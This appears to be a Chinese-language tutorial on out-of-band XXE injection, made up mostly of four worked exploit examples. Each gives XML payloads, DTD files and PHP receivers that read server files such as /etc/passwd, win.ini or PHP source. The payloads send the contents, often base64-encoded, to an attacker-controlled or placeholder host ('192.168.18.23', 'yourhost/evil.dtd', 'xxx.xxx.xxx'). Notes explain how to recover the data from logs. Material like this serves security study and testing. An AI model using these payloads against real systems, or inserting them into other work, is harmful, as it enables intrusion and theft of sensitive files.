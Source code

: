 （1）构建一条带外信道提取数据
（2）将文件内容发送到远程服务器，然后读取
（3）读取文件，并发送到服务器的上


> 
<h4>（1）示例一：</h4>
通过创建index.php来构建一条带外信道提取数据
//创建test.php
&lt;?php <br/> file_put_contents("test.txt", $_GET['file']) ; <br/> ?&gt;<br/> — — — — — —
//创建index.php
&lt;?php <br/> $xml=&lt;&lt;&lt;EOF <br/> &lt;?xml version="1.0"?&gt; <br/> &lt;!DOCTYPE ANY[ <br/> &lt;!ENTITY % file SYSTEM "file:///C:/test.txt"&gt; <br/> &lt;!ENTITY % remote SYSTEM "http://localhost/test.xml"&gt; <br/> %remote;<br/> %all;<br/> %send; <br/> ]&gt; <br/> EOF; <br/> $data = simplexml_load_string($xml) ; <br/> echo "&lt;pre&gt;" ; <br/> print_r($data) ; <br/> ?&gt;<br/> — — — — — —
//创建test.xml
&lt;!ENTITY % all "&lt;!ENTITY % send SYSTEM 'http://localhost/test.php?file=%file;'&gt;"&gt;

当访问index.php时,服务器（存在漏洞）会读取text.txt，并发送给攻击者服务器上的test.php，并把读取的数据保存到本地的test.txt中。


> 
<h4>（2）示例二：</h4>
&lt;!DOCTYPE convert [ <br/> &lt;!ENTITY % remote SYSTEM "http://192.168.18.23/xxe/xxe2/test.dtd"&gt;<br/> %remote;%int;%send;<br/> ]&gt;<br/> — — — — — —
//三个参数实体 %remote;%int;%send
%remote 调用后请求远程服务器上的 test.dtd（相当于包含）
%int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，
将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 %)
再调用 %send，数据发送到我们的远程 vps 上
— — — — — —


test.dtd（进行了base64编码）
&lt;!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windwos/win.ini"&gt;<br/> &lt;!ENTITY % int "&lt;!ENTITY &amp;#37; send SYSTEM 'http://192.168.18.23?p=%file;'&gt;"&gt;
查看数据日志文件信息（知道日志存储的位置），第二个请求文件内容包含我们的命令，可以看到base64编码后的数据，也确认了OOB XXE漏洞的存在。
编码也是为了不破坏原本的XML语法，不编码会报错。



> 
<h4>（3）示例三：</h4>
可以将文件内容发送到远程服务器，然后读取
&lt;?xml verstion="1.0" encoding="utf-8"?&gt;<br/> &lt;!DOCTYPE a[<br/>         &lt;!ENTITY % f SYSTEM "http://yourhost/evil.dtd"&gt;<br/>         %f;<br/> ]&gt;<br/> &lt;a&gt;&amp;b;&lt;/a&gt;<br/> $data = simplexml_load_string($xml);<br/> print_r($data);<br/>  
— — — — — —
evil.dtd（远程服务器）
&lt;!ENTITY b SYSTEM "file:///etc/passwd"&gt;


> 
<h4>（4）示例四：</h4>
先使用php://filter获取目标文件的内容
将内容以http请求发送到接收数据的服务器(攻击服务器)
&lt;?xml version=”1.0”?&gt;<br/> &lt;!DOCTYPE ANY [<br/> &lt;!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./target.php"&gt; # /etc/issue<br/> &lt;!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx/evil.dtd"&gt;<br/> %dtd;<br/> %send;<br/> ]&gt;<br/> — — — — — —
//evil.dtd
（%号要进行实体编码成`&amp;#x25）`
&lt;!ENTITY % all<br/> “&lt;!ENTITY &amp;#x25; send SYSTEM ‘http://xxx.xxx.xxx/?%file;’&gt;”<br/> &gt;<br/> %all;<br/>  
有报错直接查看报错信息
无报错访问目标服务器的日志信息，经过base64编码过的数据，对其解码
